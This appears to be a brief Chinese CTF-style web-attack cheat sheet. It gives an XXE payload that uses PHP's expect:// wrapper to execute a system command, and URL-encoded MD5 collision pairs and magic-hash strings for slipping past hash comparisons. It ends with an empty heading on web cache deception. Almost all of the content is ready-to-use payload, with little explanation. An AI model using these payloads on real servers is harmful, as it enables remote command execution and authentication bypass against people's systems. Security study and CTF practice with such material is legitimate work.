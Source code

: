 



# XXE+EXCEPT协议

```xml
//system('ls')
<!DOCTYPE XXE [<!ENTITY a SYSTEM "expect://php$IFS-r$IFS'system(chr(108).chr(115));'">]>
```

# hash碰撞

*   MD5

```diff
- M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
+ M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

```diff
- 0e306561559aa787d00bc6f70bbdfe3404cf03659e704f8534c00ffb659c4c8740cc942feb2da115a3f4155cbb8607497386656d7d1f34a42059d78f5a8dd1ef

+ 0e306561559aa787d00bc6f70bbdfe3404cf03659e744f8534c00ffb659c4c8740cc942feb2da115a3f415dcbb8607497386656d7d1f34a42059d78f5a8dd1ef


```

```diff
- 1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%A3njn%FD%1A%CB%3A%29Wr%02En%CE%89%9A%E3%8EF%F1%BE%E9%EE3%0E%82%2A%95%23%0D%FA%CE%1C%F2%C‍4P%C2%B7s%0F%C8t%F28%FAU%AD%2C%EB%1D%D8%D2%00%8C%3B%FCN%C9b4%DB%AC%17%A8%BF%3Fh%84i%F4%1E%B5Q%7B%FC%B9RuJ%60%B4%0D7%F9%F9%00%1E%C1%1B%16%C9M%2A%7D%B2%BBoW%02%7D%8F%7F%C0qT%D0%CF%3A%9DFH%F1%25%AC%DF%FA%C4G%27uW%CFNB%E7%EF%B0

+ 1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%A3njn%FD%1A%CB%3A%29Wr%02En%CE%89%9A%E3%8E%C6%F1%BE%E9%EE3%0E%82%2A%95%23%0D%FA%CE%1C%F2%C4P%C2%B7s%0F%C8t%F28zV%AD%2C%EB%1D%D8%D2%00%8C%3B%FCN%C9%E24%DB%AC%17%A8%BF%3Fh%84i%F4%1E%B5Q%7B%FC%B9RuJ%60%B4%0D%B7%F9%F9%00%1E%C1%1B%16%C9M%2A%7D%B2%BBoW%02%7D%8F%7F%C0qT%D0%CF%3A%1DFH%F1%25%AC%DF%FA%C4G%27uW%CF%CEB%E7%EF%B0

```

```diff
-
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

+
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```
# Web Cache Deception
web缓存欺骗
